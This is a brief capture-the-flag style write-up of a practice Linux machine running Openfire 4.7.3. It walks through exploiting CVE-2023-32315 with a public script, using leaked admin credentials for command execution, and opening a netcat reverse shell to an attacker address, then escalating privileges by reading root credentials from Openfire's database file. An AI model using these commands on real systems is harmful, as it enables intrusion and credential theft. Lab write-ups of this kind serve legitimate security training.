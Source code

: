 # Fired (Linux)

## Initial Foothold

Enumerated open ports (22, 9090, 9091) and discovered an Openfire management interface at `http://$IP:9090`. Searched for exploits targeting Openfire version 4.7.3 and found [CVE-2023-32315](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT). Ran the exploit:

```bash
python3 CVE-2023-32315.py -u http://192.168.131.96:9090
```

This leaked the credentials:  
- Username: `hugme`  
- Password: `HugmeNOW`

Accessed the management tool, found an additional password (`123`) in the plugins section, and used the server-serversettings-management tool to execute commands. Achieved shell access with:

```bash
busybox nc 192.168.45.194 9091 -e /bin/bash
```

## Privilege Escalation

Searched for sensitive files and found root credentials inside `/var/lib/openfire/embedded-db/openfire.script`. Extracted the root password from this file and gained full root access.
